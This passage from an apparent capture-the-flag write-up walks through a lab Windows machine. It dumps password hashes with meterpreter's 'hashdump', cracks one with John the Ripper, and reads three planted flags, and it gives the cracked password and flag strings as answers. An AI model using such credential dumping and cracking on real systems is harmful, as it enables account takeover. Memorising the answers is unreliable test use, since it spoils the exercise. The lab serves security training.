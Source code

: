 **Note that if you already have cracked that password hash and re-execute that previous command, `john` will not show you the cracked password again. Pretty confusing. `john` saves cracked hashes in `~/.john/john.pot`. Removing that file can be quick fix. See [this link](https://www.openwall.com/john/doc/FAQ.shtml#:~:text=To%20display%20cracked%20passwords%2C%20use,hashes%20again%2C%20remove%20the%20john.) for more information.**

### Answer the questions below

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

    jon

Copy this password hash to a file and research how to crack it. What is the cracked password?

    alqfna22

## Task 5 - Find flags!

_Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!_

To accomplish this without guidance, requires a bit of researches on the system or on internet.

**Note that we need to make use of double backslash when specifying paths. We can also make use of autocompletion by pressing the TAB key, but do not forget to remove the additional space that get added on the end.**

The first, `flag1.txt` is located on the root of the `C:` drive:

```commandline
meterpreter > pwd
C:\Windows\system32
meterpreter > cd c:\\
meterpreter > pwd
c:\
meterpreter > cat flag1.txt 
flag{access_the_machine}
```

The second, `flag2.txt` is stored in the `C:\windows\system32\config`:

```commandline
meterpreter > pwd                                          
c:\
meterpreter > cd c:\\windows\\system32\\config
meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
```

The last, `flag3.txt` is stored in `C:\Users\Jon\Documents `:

```commandline
meterpreter > pwd
c:\windows\system32\config
meterpreter > cd c:\\Users\\Jon\\Documents 
meterpreter > cat flag3.txt 
flag{admin_documents_can_be_valuable}
```
